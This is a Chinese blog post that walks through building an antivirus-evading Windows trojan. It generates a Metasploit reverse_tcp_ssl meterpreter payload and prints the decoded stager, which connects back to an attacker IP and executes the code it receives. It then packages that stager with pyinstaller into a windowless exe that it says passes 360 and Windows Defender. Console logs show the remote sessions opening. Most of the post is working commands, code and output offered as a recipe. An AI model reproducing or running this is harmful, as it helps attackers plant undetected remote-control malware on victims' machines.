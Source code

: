 ```yaml
---
layout:     post            # 使用的布局（不需要改）
title:      MSF Windows免杀   # 标题
subtitle:   简单bypass过数字和wd。  # 副标题
date:       2021-09-07      # 时间
author:     K4ys0n           # 作者
header-img: img/post-bg-coffee.jpeg    # 这篇文章标题背景图片
catalog:    true            # 是否归档
tags:                       # 标签
    - 免杀
    - Windows
    - 网络安全
    - MSF
    - 木马
---
```


# 前言
本次目标是简单测试能过一般杀软。

这里会用到MSF的一个payload：`python/meterpreter/reverse_tcp_ssl`。

PS：另外测了`python/meterpreter/reverse_https`也可以免杀，所以payload内容可能稍微没有太大的关系，主要还是pyinstaller打包。


# 步骤
## 1. msfvenom生成payload
kali中：
```shell
msfvenom -p python/meterpreter/reverse_tcp_ssl -a python --platform python LHOST=[你的的IP] LPORT=[你的端口] -f raw -o test.py
```
生成的test.py文件，打开如下：
```python
exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHpsaWIsYmFzZTY0LHNzbCxzb2NrZXQsc3RydWN0LHRpbWUKZm9yIHggaW4gcmFuZ2UoMTApOgoJdHJ5OgoJCXNvPXNvY2tldC5zb2NrZXQoMiwxKQoJCXNvLmNvbm5lY3QoKCcxOTIuMTY4LjEwMC4xMjknLDEwMTAxKSkKCQlzPXNzbC53cmFwX3NvY2tldChzbykKCQlicmVhawoJZXhjZXB0OgoJCXRpbWUuc2xlZXAoNSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyh6bGliLmRlY29tcHJlc3MoYmFzZTY0LmI2NGRlY29kZShkKSkseydzJzpzfSkK')[0]))
```
将代码中base64编码的内容进行解码，kali的终端中解码如下：
```shell
echo 'aW1wb3J0IHpsaWIsYmFzZTY0LHNzbCxzb2NrZXQsc3RydWN0LHRpbWUKZm9yIHggaW4gcmFuZ2UoMTApOgoJdHJ5OgoJCXNvPXNvY2tldC5zb2NrZXQoMiwxKQoJCXNvLmNvbm5lY3QoKCcxOTIuMTY4LjEwMC4xMjknLDEwMTAxKSkKCQlzPXNzbC53cmFwX3NvY2tldChzbykKCQlicmVhawoJZXhjZXB0OgoJCXRpbWUuc2xlZXAoNSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyh6bGliLmRlY29tcHJlc3MoYmFzZTY0LmI2NGRlY29kZShkKSkseydzJzpzfSkK' | base64 -d > payload.py
```
解码后的内容保存在payload.py文件中，内容如下：
```python
import zlib,base64,ssl,socket,struct,time
for x in range(10):
    try:
        so=socket.socket(2,1)
        so.connect(('192.168.0.1',10101))
        s=ssl.wrap_socket(so)
        break
    except:
        time.sleep(5)
l=struct.unpack('>I',s.recv(4))[0]
d=s.recv(l)
while len(d)<l:
    d+=s.recv(l-len(d))
exec(zlib.decompress(base64.b64decode(d)),{'s':s})
```

## 2. MSF监听器
在kali中MSF起一个监听器：
```shell
root@kali:~/test# msfconsole
...
...
msf6 > handler -H 0.0.0.0 -P 10101 -p python/meterpreter/reverse_tcp_ssl
[*] Payload handler running as background job 0.
```

## 3. 测试一下payload能否正常上线
在靶机（本地PC）中运行payload.py：
```cmd
python3 payload.py
```
可以看到msf中上线了：
```shell
msf6 > handler -H 0.0.0.0 -P 10101 -p python/meterpreter/reverse_tcp_ssl 
[*] Payload handler running as background job 0.
msf6 > 
[*] Started reverse SSL handler on 0.0.0.0:10101 
[*] Sending stage (39324 bytes) to 192.168.0.1
[*] Meterpreter session 1 opened (192.168.0.129:10101 -> 192.168.0.1:58972) at 2021-09-07 10:04:30 +0800

msf6 > 

```

## 4. 打包成exe过杀软
需要先在Windows环境中安装python3，并安装pyinstaller库。
```shell
pip install pyinstaller
```
然后在Windows环境中pyinstaller才会生成exe文件：
```shell
pyinstaller -Fw payload.py --hidden-import imp
```
PS：`hidden-import`参数使编译成exe时不导入imp库，否则会报错`No module named 'imp'`，原因是imp库在python3.4以后开始准备弃用，后续用importlib库代替，但payload中不需要用到这个库，所以直接屏蔽即可。
另外`w`参数可以使编译后的exe双击运行时无弹窗。

*PS2：打包成elf*
只需在linux环境下用pyinstaller打包即可生成elf，同4。

## 6. 上线测试
在靶机中运行exe文件，在kali的MSF监听中可以看到上线：
```shell
msf6 > [*] 192.168.0.1 - Meterpreter session 1 closed.  Reason: Died

[*] Sending stage (39328 bytes) to 192.168.0.1
[*] Meterpreter session 2 opened (192.168.0.129:10101 -> 192.168.0.1:62799) at 2021-09-07 10:15:06 +0800

msf6 > sessions

Active sessions
===============

  Id  Name  Type                        Information              Connection
  --  ----  ----                        -----------              ----------
  2         meterpreter python/windows  83400 @ DESKTOP-PENGDTG  192.168.0.129:10101 -> 192.168.0.1:62799 (192.168.100.1)

msf6 > 

```

# 总结
本次使用了MSF的`payload/python/meterpreter/reverse_tcp_ssl`模块，通信会进行ssl加密；其次，通过pyinstaller打包成exe之后文件会变成6、7MB，稍微有点大。